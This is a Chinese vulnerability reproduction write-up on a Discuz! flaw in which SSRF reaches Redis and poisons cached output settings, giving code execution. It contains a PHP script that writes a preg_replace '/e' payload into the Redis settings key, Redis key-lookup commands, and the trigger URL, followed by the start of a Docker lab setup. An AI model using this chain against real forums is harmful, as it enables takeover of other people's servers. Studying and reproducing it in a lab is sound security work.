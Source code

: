 # Discuz!利用SSRF+Redis缓存应用导致有条件代码执行
## 0x00漏洞简介
当dz设置使用缓存后，初始化时会把缓存内容加入全局变量$_G.而在调用缓存的地方source/fucntion/function_core.php中:
```
function output_replace($content) {
        ...
        if(...){
        ....
        $content = preg_replace($_G['setting']['output']['preg']['search'], $_G['setting']['output']['preg']['replace'],$content);
        }
        return $content;
}
```
其中，关键点的两个变量我们都可以通过redis修改:
```
$_G['setting']['output']['preg']['search']=”/.*/e”;
$_G['setting']['output']['preg']['replace']=”phpinfo();”;
```
dz使用redis时，全局变量$_G[‘setting’]放在xxxx_setting中的，其中前缀就是前面config_global.php中的prefix的值.也可以在redis-cli中通过如下命令查看：
```
keys *          #查看所有键
keys *_setting  #模糊查询的方式查找匹配的键
```
得到键名后通过以下方式修改本地缓存：
```
<?php
$a['output']['preg']['search']['plugins'] = "/.*/e";
$a['output']['preg']['replace']['plugins'] = "phpinfo();";
$a['rewritestatus']['plugins']=1;
$setting = serialize($a);
$redis = new Redis();
$redis->connect('127.0.0.1',6379);
$redis->set("kQbXlj_setting",$setting);
?>
```
复写缓存后访问如下地址就能发现成功getshell:
```
/discuz/forum.php?mod=ajax&inajax=yes&action=getthreadtype
```
## 0x01环境搭建
###获取镜像
环境搭建共使用三个镜像：MySQL、Redis和安装过phpredis的Discuz!
其中MySQL和Redis的镜像可用以下命令从官方获取：
```
docker pull mysql
docker pull redis
```
鉴于国外源的镜像仓库速度缓慢且有时容易中断无响应，建立通过[DaoCloud](https://www.daocloud.io/)拉取镜像

